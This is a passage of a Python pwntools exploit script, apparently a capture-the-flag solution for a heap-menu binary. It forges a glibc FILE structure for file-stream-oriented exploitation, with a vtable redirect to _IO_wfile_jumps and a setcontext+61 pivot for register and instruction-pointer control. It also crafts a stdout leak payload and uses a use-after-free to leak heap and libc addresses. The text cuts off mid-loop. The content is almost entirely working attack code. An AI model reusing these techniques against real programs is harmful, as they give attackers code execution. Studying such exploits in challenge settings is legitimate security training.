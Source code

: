 ```python

    fs._IO_read_end = fp - 0x10 #RDX
    fs._IO_read_base = r8 #R8
    fs._IO_write_base = r9 #R9
    fs._IO_buf_base = r12 #R12
    fs._IO_buf_end = r13 #R13
    fs._IO_save_base = r14 #R14
    fs._IO_backup_base = r15 #R15
    fs._IO_save_end = rdi #RDI
    fs.markers = rsi if rsi is not None else libc.bss() #RSI
    fs.chain = rbp #RBP
    fs.fileno = rbx & 0xffffffff #RBX
    fs._flags2 = rbx >> 32
    fs._old_offset = rdx #RDX
    fs._lock = fp + 0x10  #RCX
    fs._offset = rsp if rsp is not None else libc.bss() #RSP
    fs._codecvt = rip if rip is not None else nsa(libc, "syscall ; ret") #RIP
    fs._wide_data = fp - 0x10
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym["setcontext"] + 61) + p64(fp + 0xb0)
    fs.vtable = libc.sym._IO_wfile_jumps + offset - 0x18 # _IO_wfile_seekoff -> _IO_switch_to_wget_mode+37
    return bytes(fs)

def stdout_leak(target=None, size=0x8):
    return p64(0xfbad1800) + p64(0)*3 + (p64(target) + p64(target + size) if target is not None else b'\x00')

def menu(choice):
    sla(b"> ", str(choice).encode())

def alloc(idx, size, data):
    menu(1)
    menu(idx)
    menu(size)
    sa(b"> ", data)

def view(idx):
    menu(2)
    menu(idx)

def free(idx):
    menu(3)
    menu(idx)

def exploit():
    global io
    io = initialize()
    with log.progress("Leak heap & libc address"), context.silent:
        alloc(0, 0x18, b"A")
        free(0)
        view(0)
        heap_leak = demangle(u64(rl().strip().ljust(8, b"\x00")))
        heap = heap_leak & ~0xfff
    leak("Heap leak", hex(heap_leak))
    leak("Heap base address", hex(heap))
    with log.progress("Clean unsorted bins & smallbins"), context.silent:
        for i in range(27):
            alloc(0, 0x28, b"A")

    with log.progress("Libc leak"), context.silent:
        alloc(0, 0x28, b"A")
        alloc(1, 0x28, p64(0x21)*2)
        for i in range(5):
```